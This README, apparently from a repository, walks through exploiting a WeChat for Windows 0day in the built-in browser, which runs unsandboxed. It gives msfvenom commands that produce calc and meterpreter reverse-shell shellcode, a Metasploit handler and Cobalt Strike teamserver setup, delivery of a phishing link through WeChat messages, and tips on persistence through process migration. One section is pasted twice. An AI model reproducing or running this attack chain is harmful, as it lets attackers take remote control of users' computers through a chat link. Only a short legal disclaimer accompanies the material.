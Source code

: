 



# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*

![image-20210419220004697]($imgs/image-20210419220004697.png)

### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。

![image-20210419221432458]($imgs/image-20210419221432458.png)

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html

![image-20210419220935481]($imgs/image-20210419220935481.png)



## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。

![image-20210419224510744]($imgs/image-20210419224510744.png)

### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html

<img src="$imgs/image-20210419224819886.png" alt="image-20210419224819886" style="zoom:50%;" />

![image-20210419224724224]($imgs/image-20210419224724224.png)

## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### <img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom: 50%;" />

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

![image-20210419225513410]($imgs/image-20210419225513410.png)

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**

<img src="$imgs/image-20210419230142555.png" alt="image-20210419230142555" style="zoom:50%;" />

![image-20210419230351333]($imgs/image-20210419230351333.png)

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419230559917]($imgs/image-20210419230559917.png)

**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419230813043]($imgs/image-20210419230813043.png)



**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**

![image-20210419231021319]($imgs/image-20210419231021319.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419231230251]($imgs/image-20210419231230251.png)

## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

1*. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开"关于微信内置浏览器 达到持久控制 _ Liqun.html"，即可看到，我试了一下，没成功，感兴趣的朋友可以尝试一下。



**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

